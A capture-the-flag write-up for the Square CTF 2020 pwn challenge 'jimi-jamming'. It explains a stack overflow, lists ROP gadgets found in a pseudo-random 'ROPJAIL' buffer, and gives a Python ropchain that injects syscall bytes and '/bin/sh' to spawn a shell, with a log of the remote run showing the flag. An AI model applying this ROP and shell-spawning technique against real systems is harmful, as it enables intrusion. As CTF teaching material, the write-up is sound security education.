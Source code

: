 jimi-jamming
============

This challenge was part of Square CTF 2020.

Challenge description:
```
Out of the frying pan? Back into the JAM JAR WITH YOU
nc challenges.2020.squarectf.com 9001
```

* Points: 300
* Topics: pwn
* Given files: `jimi-jamming`, `libc.so.6`

## Approach
Let's check the mitigations techniques:
```bash
$ checksec jimi-jamming
[*] './jimi-jamming'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Similar to the [other challenge](../jimi-jam), this looks like there might be a stack overflow involved.

Loading the binary in a decompiler turns out, the binary first initializes a `ROPJAIL` buffer (size: 0x1000 bytes).
Said buffer is allocated by `posix_memalign` and aligned to page size (0x1000).
The binary then fills the entile `ROPJAIL` buffer with pseudo random data, such that it contains the same content in every execution.
Also, every 16th byte is a `\xc3`, which is the opcode for `ret`.
We are then able to modify 10 bytes in the `ROPJAIL` buffer with 10 bytes that we provide (Awesome!).
After that, the entire `ROPJAIL` buffer is mapped `rx`, so we can't change it afterwards.

In this challenge we don't get a leak - but we also don't need any leak.

Instead, the binary provides a buffer overflow in the `vuln()` function.
We can write 0x80 bytes to a buffer of size 0x8 bytes.
There is one limitation though: Every long of the first half of our input must either be `< 0x200000000` or point into the `ROPJAIL` buffer.

This is everything we need to know, to exploit this binary. So, what do we do? 
Let's use rop gadgets from the `ROPJAIL` buffer to trigger a `execve` system call; And if necessary we can inject our own code (upto 10 bytes) into the `ROPJAIL` buffer.

Luckily, [`ropper`](https://github.com/sashs/ropper) can find rop gadgets in raw blobs.
Among other gadgets the `ROPJAIL` buffer contains the following (which we are all going to use):

```
0xdcf:   pop rax; ret;
0xd3f:   pop rsi; ret;
0x7df:   pop rdx; ret;
0xdaf:   pop rdi; ret;
```

Thus, we can set all registers for the system call.
If we specify `'\x0f\x05' + '/bin/sh\0'` as the 10 bytes that are written to the `ROPJAIL` buffer, we can trigger the system call (`'\x0f\x05'`) and provide `/bin/sh` in `rdi`.
Also, we need to set `rax` to `0x3b`, since this is the `execve` syscall number.

Therefore, the ropchain looks like this:
```python
ropchain = [
	pop_rsi,          # Set rsi to 0 (argv)
	0,
	pop_rdx,          # Set rdx to 0 (envp)
	0,
	pop_rax,          # Set syscall number (execve)
	0x3b,
	pop_rdi,          # Set filename parameter to '/bin/sh'
	jail_leak + 0x2,
	jail_leak,        # Trigger the syscall;
]
```

We only need to send padding bytes (`'\0'*32`) to put the ropchain at the right place.
That's all we need to do!

## Exploit
You can find the exploit in [`x.py`](./x.py).

Just run it:
```bash
$ ./x.py remote
[*] './jimi-jamming'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] './libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.2020.squarectf.com on port 9001: Done
[*] Jail @ address 0x5609d6a07000
[*] Sending ropchain
[*] Switching to interactive mode
$ cat flag.txt
flag{ret_is_the_same_as_sigint_imo}
$
```
